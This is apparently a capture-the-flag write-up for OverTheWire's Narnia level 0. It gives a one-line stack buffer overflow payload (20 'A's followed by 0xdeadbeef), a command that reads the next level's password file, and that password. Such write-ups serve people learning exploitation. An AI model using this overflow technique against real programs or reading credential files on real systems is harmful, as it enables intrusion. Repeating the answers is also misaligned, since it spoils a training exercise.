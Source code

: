 ### Narnia Level 0

[narnia0](http://overthewire.org/wargames/narnia/narnia0.html)

**Username**: *narnia0*

**Password**: *narnia0*


### Solution
```bash
(python -c'print "A"*20 + "\xef\xbe\xad\xde"';cat) | ./narnia0
cat /etc/narnia_pass/narnia1
```


#### Credentials for Level 1

**Username**: *narnia1*

**Password**: *efeidiedae*

